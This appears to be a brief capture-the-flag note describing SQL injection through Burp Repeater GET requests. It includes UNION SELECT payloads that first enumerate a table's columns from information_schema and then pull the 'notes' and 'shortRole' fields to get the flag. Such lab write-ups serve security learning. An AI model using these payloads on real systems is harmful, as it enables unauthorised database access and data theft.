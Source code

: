 Repeater
===
an SQLi ould be performed along with the GET request
`GET /about/0 union select group_concat(column_name),null,null,null,null from information_schema.columns where table_name="people" HTTP/1.1`:
![[Screenshot 2022-05-30 at 09.29.44.png]]

Areas of interest: notes and shortRole (new)

`GET /about/0 union select shortRole,notes,null,null,null from people where id HTTP/1.1` to get the flag:
![[Screenshot 2022-05-30 at 09.34.47.png]]